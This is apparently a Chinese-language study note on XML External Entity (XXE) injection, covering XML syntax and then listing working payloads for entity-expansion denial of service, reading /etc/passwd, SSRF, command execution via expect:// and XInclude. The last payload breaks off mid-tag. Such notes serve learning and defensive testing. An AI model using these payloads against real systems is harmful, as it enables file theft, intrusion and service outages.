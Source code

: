 ```yaml
---

title: xxe

date: 2023-12-26 02:01:50

tags:

---
```


# XXE

------

[TOC]

## XML基础

XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。 XML 的语法规范由 DTD （Document Type Definition）来进行控制。

<!--more-->

## 基本语法

XML 文档在开头有 `<?xml version="1.0" encoding="UTF-8" standalone="yes"?>` 的结构，这种结构被称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，但是必须放在文档开头。

除了可选的开头外，XML 语法主要有以下的特性：

- 所有 XML 元素都须有关闭标签
- XML 标签对大小写敏感
- XML 必须正确地嵌套
- XML 文档必须有根元素
- XML 的属性值需要加引号

另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。

## XXE

当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。

## 攻击方式

###  拒绝服务攻击

```xml
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。

### 文件读取

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

### SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>
```

### RCE

```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

### XInclude

```xml
<?xml version='1.0'?>
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></da
```